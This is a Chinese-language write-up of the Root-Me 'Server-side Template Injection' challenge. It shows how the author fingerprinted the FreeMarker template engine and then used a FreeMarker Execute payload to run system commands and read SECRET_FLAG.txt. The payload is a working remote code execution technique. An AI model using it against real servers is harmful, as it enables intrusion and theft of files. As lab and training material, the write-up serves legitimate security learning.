 Root-Me [Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Server-side-Template-Injection)
===

一個 Input，輸入什麼，顯是什麼。

## 解題關鍵
1. Template Injection

## 提示訊息
```
Exploit the vulnerability in order to retrieve the validation password in the file SECRET_FLAG.txt.
```

## 解題方法
簡單搜尋關鍵字，發現就像 XXS，但更進階一點，是由伺服器端的樣板引擎在做解析。  

```
smarty=Hello ${7*7}
Hello 49

freemarker=Hello ${7*7}
Hello 49
```

當我嘗試在頁面上唯一的 input 上輸入 `${7*7}`，出現了一樣的結果。  

![](img/01.png)  

至於如何運用，可以先參考以下這張圖來進行測試，透過輸入的方式來得知該頁面使用哪個板模。  

![](img/02.png)https://www.we45.com/blog/server-side-template-injection-a-crash-course-  

```
${5*5} //Success
$a{*comment*}b //Fail
a{*comment*}b //Fail
${"z".join("ab")} //Fail
{"z".join("ab")} //Fail
```

結果得到 `Unknown`，所以是個未知板模...  

接著只好嘗試再找找有沒有其他資訊，就再輸入 `${"z".join("ab")}` 的同時，查看了 Requests、Response，發現 `Preview` 回應了一些資訊。  

![](img/03.png)  

Google `freemarker` 關鍵字之後發現，這是一個 Java 的 Template 框架，在 [服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）](https://wooyun.js.org/drops/服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）.html) 一文中找到簡單的 exploit 用法，如下。  

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ex("id")}
```

簡單的說比較像是 XXE + Template 連環技，首先 XXE 一個標籤，在透過 `${ex("CMD")}` 去執行系統指令，如下圖以指令 `ls` 為例。  

![](img/04.png)  

可以發現目標 `SECRET_FLAG.txt` 檔案在同個目錄下，將指令改為 `cat SECRET_FLAG.txt` 解決該題，Payload 如下。  

```
<#assign ex="freemarker.template.utility.Execute"?new()>  ${ex("cat SECRET_FLAG.txt")}
```

## Reference
https://portswigger.net/blog/server-side-template-injection
https://www.we45.com/blog/server-side-template-injection-a-crash-course-
https://wooyun.js.org/drops/服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）.html

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)